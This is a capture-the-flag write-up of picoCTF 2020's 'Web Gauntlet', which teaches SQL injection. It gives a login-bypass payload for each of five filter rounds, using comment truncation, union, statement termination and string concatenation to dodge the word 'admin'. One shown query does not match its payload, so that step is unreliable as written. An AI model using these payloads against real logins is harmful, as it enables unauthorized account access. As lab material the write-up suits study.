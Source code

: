 ```yaml
---

title: "Web Gauntlet"  
date: "2024-10-16"  
thumbnail: "/assets/img/thumbnail/Web_Gauntlet.png"

---
```


# Web Gauntlet

---

**Challenges Difficulty: Medium**  
**Category: Web Exploitation**

## Introduction  
This series focuses on the fundamentals of SQL Injection vulnerability. Check out [A03:2021-Injection](https://owasp.org/www-community/attacks/SQL_Injection).

## WALKTHROUGH  
This challenge is from the picoCTF 2020 Mini-Competition.

#### Hints:
1. You are not allowed to log in with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters, it may be hard to see the characters. Always (always) look at the raw hex in the response.
4. SQLite is used.
5. If your cookie keeps getting reset, try using a private browser window.

![Challenge 1](/assets/img/posts/post-2/chal.png)

The challenge gives us two links as shown above. The first one is a login page, and the second shows us what the round filters.  
For the first round, it filters out **or**, so we can still use **--** to comment out the rest of the query.

---

**Username:** `admin'--`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'-- AND password='123'
```

---

Now we are in round 2, and it filters out the following: **or**, **like**, **=**, and **--**.  
We shall try to use an alternative method, like **union**, to continue.

---

**Username:** `admin'union select * from users where '1;`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

In round 3, it filters **or**, **=**, **like**, **>**, **<**, and **--**. We can use **;** to end the query.
In SQL, the semicolon is a statement terminator, meaning it marks the end of a SQL statement. It tells the database engine that the statement is complete and ready to be executed

---

**Username:** `admin';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

Round 4 is a little more creative as it filters out **or**, **=**, **like**, **>**, **<**, **--**, and **admin**.  
Admin?? 🙂 Don’t panic, no problem! 😅  
In SQL, the `||` operator is commonly used for string concatenation, especially in databases like SQLite. If the application’s underlying SQL query uses this operator correctly, entering `ad'||'min'` would result in the following behavior:

```sql
SELECT * FROM users WHERE username='admin';
```

And this is what we want.
---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

We are in the final round—good job! ✌  
In the final round, it filters **and**, **=**, **like**, **>**, **<**, **--**, **union**, and **admin**, but we will use the same method as in the previous round.

---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

Congrats! You won! Check out `filter.php`.  
![solution](/assets/img/posts/post-2/sol.png)

Many thanks to [onealmond](https://github.com/onealmond) as his write-up helped me a lot in solving this challenge.

---